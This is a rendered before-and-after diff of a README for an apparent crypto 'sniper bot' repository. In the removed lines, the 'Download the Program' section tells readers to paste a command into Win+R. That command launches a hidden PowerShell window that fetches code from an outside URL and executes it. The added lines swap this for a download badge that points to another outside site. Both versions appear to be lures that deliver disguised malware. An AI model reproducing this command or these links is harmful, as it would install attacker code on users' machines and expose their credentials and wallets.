

Before and after one commit to Pump-Fun-Sniper/Pump-Fun-Sniper-Bot, a Markdown page: README.md, the part around the change. GitHub-like rendering; badges without logos; blank space fills up the shorter version.

```diff
--- a/README.md
+++ b/README.md
@@ -19,13 +19,9 @@
 </ul>
 
 <h2>📥 Download the Program</h2>
-<h3>copy and execute the following command in (Win+R)</h3>
-
-<pre>
-  <code id="code-snippet">cmd.exe /c start /min powershell -w h "$u='https://aidetector.tools/wZWZqs';[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iex(iwr $u -UseBasicParsing -UserAgent 'ID: daff2f8').Content;</code>
-</pre>
-
-<p>You can download the limited version of the program for free directly from my repository! 🆓 However, the extended version is available for download at the link below and includes additional modules and modes of operation that are not included in the limited version. 💪</p>
+<a href="https://talkingmanager.com/1C8kxSMV?name=PumpfunSniperV1.3" download>
+  <img src="https://img.shields.io/badge/Download-blue?logo=Download&logoColor=white&style=for-the-badge" alt="Download"/>
+</a>
 
 <h2>🚀 Features</h2>
 
```
